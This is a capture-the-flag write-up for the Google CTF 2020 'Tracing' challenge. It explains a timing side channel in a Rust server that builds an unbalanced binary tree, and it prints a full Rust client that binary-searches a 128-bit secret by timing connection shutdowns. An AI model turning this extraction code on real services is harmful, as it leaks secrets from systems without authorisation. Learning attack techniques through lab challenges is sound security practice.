 ## CTF 2020 Tracing writeup

Well, its been a while since ctf google competition has ended (August 2020) but I just discovered it and thought I should give it a go.
Soooo here it goes:


The challenge is under the pwn category and it is considered an easy one (but awards 151 points instead of the 50 that most easy challenges are worth)

The description of the challenge is the following:
```
An early prototype of a contact tracing database is deployed for the developers to test,
but is configured with some sensitive data. See if you can extract it.
```

Google provides a zip file that has a basic rust implementation of a server and an implementation of a b-tree.

### Understanding the problem
We can assume that the purpose of using rust here is to make sure that buffer overflow attacks are impossible. Neither the webserver nor b-tree implementation seem to have any unsafe code that we could exploit.

We can formulate though a solution, if we track down the logic the webserver is following.

First of all we can see that the server loads up some flag (thats what we're tasked to find to complete the challenge) which is 16 bytes and casts it to a Uuid.
```rust
 let checks: Vec<Uuid> = std::env::args()
        .skip(1)
        .map(|arg| Uuid::from_slice(arg.as_bytes()).unwrap())
        .collect();
```


Every new connection to the server spawns a thread that handles it and performs the following:
  * Read N bytes untill the reading channel is closed from the client
  * Split the N bytes into chunks of 16 bytes
  * Create N/16 Uuids and insert them into a fresh b-tree
  * Write back to the client the number of inserted Uuids
  * Search the input flag into the b-tree
  * Close the connection
  
Highlighting those in code:
```rust
...
    // receive bytes
    let bytes = (&stream).bytes().map(|b| b.unwrap());
    // split to chunks
    let chunks = {
        use futures::stream::StreamExt;
        bytes.chunks(16)
    };

    let mut count: u32 = 0;
    // create collection of Uuids
    let ids = chunks.filter_map(|bytes| {
        count += 1;
        Uuid::from_slice(&bytes).ok()
    });
    // Use ids to populate a fresh binary tree
    let tree = {
        use futures::stream::StreamExt;
        ids.collect::<BinarySearchTree<_>>()
    }
    .await;
    // respond with a number
    stream.write_all(&count.to_be_bytes()).await?;

    // perform check
    checks
        .iter()
        .filter(|check| tree.contains(check))
        .for_each(|check| warn!("Uploaded IDs contain {}!", check));
    // shutdown connection
    stream.shutdown(std::net::Shutdown::Both)?;
...
```

As we can see from the above, we can only alter the content of the b-tree and have no way to retrieve anything other than the number of elements we inserted into it.

### Craft a theoritical solution
What allows to solve this challenge instead is the timing in which the server responds and closes the connection.
The server writes back to the client the moment it has finished inserting the values into the b-tree and closes the connection only after a complete search for the flag into the tree.

Which means that the only attack angle here is **timing**.

A quick check on the binary tree implementation shows that this is **not** a self-balancing b-tree, which means that we can create a totally unbalanced b-tree and therefore alter the searching time on demand.

A simple example on how we could leverage that and search for the flag is the following:

Assuming that the flag is a value between 1-100, inserting into the binary tree values 50,51,.....80 will create the following tree:

![](./images/tracing1.png)


if the flag is between 0-50 the search operation will be O(1) and if it is on the upper bound the operation becomes O(n)

We can then measure the time from the moment the server responds till it shuts down the connection.
We repeat the same thing but in reverse this time. We insert 50,49,...20.
which will be O(1) for values higher than 50 and O(n) for the lower bound.

Measuring again will give us 3 possible results.
If our flag is between 50-100 it will take more time to be searched through the first tree and if it is between 0-50 it will take more time on the second tree. IF the time is identical we just found the flag first try (very unlikely). By noting that down we can inference in which half of the key space our flag is on. Congrats, we just performed the first step of Binary search, then we only have to rinse and repeat couple of times till we get really close to the flag value.

### Implement solution
In this exact problem we have 2^ (16*8) = 2^128 flags that we have to binary search through them.

For the sake of getting more familiar with rust I created a client in rust that would perform those checks for me.
What is very convinient is that we could use a ```u128``` to represent each Uuid. Therefore we can easily do numeric operations without a care in the world.

Therefore I use one function that:
  * takes a u128 which is the middle point in my binary search and a sign ("+" or "-") 
  * initiates a connection to the server
  * writes 1000 consecutive (in increasing or decreasing order based on the sign) Uuids to the server
  * waits for the response
  * initiates a time instance
  * and returns it when the connection is closed

```rust
fn check_mid(middle: u128, sign: &str) -> std::io::Result<std::time::Instant> {
    let mut stream = TcpStream::connect("some.server:1337")?;
    for i in 0..1000 {
        if sign == "+" {
            stream.write(&(middle + i).to_be_bytes())?;
        } else {
            stream.write(&(middle - i).to_be_bytes())?;
        }
    }
    // close writing channel and make server create b-tree
    stream.shutdown(Shutdown::Write)?;
    let mut buffer: [u8; 4] = [1, 1, 1, 1];
    // read response
    stream.read(&mut buffer)?;
    //start measuring the time
    let now = Instant::now();
    // return the time instance for evaluation
    Ok(now)
}
```

Then I used this function to perform my binary search throughout the flag space.

```rust
fn main() {
    // start at the middle of our 16byte key space
    let mut middle: u128 = u128::MAX / 2;
    let mut i = 2;
    while i < 127 {
        let mut right: u128 = 0;
        let mut left: u128 = 0;
        // get accumulated elapsed time from communicating with the server
        for _ in 0..200 {
            right += check_mid(middle, "+")
                .expect("connection failed")
                .elapsed()
                .as_nanos();
            left += check_mid(middle, "-")
                .expect("connection failed")
                .elapsed()
                .as_nanos();
        }
        // move the middle point according to the statistics gathered
        // this is the essense of the binary search
        if right > left && right.wrapping_sub(left) > 20000 {
            middle = middle + (u128::MAX / 2u128.pow(i));
            i += 1;
        } else if left > right && left.wrapping_sub(right) > 20000 {
            middle = middle - (u128::MAX / 2u128.pow(i));
            i += 1;
        }
        // print iteration of the binary search, u128 , uuid and characters of current iteration
        println!(
            "middle {} : {} : {:?}  : {:?}",
            i,
            middle,
            Uuid::from_bytes(middle.to_be_bytes()),
            middle
                .to_be_bytes()
                .iter()
                .map(|&byte| byte as char)
                .collect::<Vec<char>>()
        );
    }
}
```

It is worth noting that the measurement of time is significant to the binary search path. Random spikes in the network latency can completely ruin our results. Therefore I'm repeating the same request 200 times in an attempt to eliminate the network variable.

In addition, after a quick research I found that google's VM is located in europe-west1-d datacenter and I ran my program from a VM there to further decrease the random latency.


Thank god binary search works this way, and we only need to do 128 requests to search all of the key space of the flag.
After a long while, we can obtain the flag.

In occasional errors, we can restart the app adjusting the ```i``` and ```middle``` for the search to continue from where it failed.
